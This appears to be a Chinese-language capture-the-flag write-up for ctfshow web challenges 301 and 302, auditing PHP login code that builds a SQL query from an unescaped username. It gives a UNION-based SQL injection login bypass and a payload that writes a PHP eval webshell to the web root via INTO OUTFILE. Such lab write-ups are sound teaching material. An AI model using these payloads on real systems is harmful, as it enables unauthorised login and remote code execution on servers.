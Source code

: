 ﻿---
title: ctfshow web入门(代码审计)
categories: ctfshow
---
# 301
下载源码看到对username没有防护，存在sql注入，且知道了表名与列名
```php
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
if($result->num_rows<1){
	$_SESSION['error']="1";
	header("location:login.php");
	return;
}
if(!strcasecmp($userpwd,$row['sds_password'])){
	$_SESSION['login']=1;
	$result->free();
	$mysqli->close();
	header("location:index.php");
	return;
}
```
Sqlmap跑一下：



![](https://img-blog.csdnimg.cn/20210413215355857.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
让查出的内容和post传的密码相等：
用户输入一个用户名，去数据库查对应的密码，再与用户输入的密码进行对比

那么我们 union select 的 1(可以想象成对应的sds_password)与我们传的密码 1 比对，返回 `true`，union注入：
```
' union select 1#
1
```
也可以尝试写入一句话

> 'union select "<?php eval($_POST[shell]);?>" into outfile "/var/www/html/shell.php"%23


---
# 302

修改的地方：
>if(!strcasecmp(sds_decode(\$userpwd),$row['sds_password']

```php
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>
```
就是将用户输入的密码进行decode方法
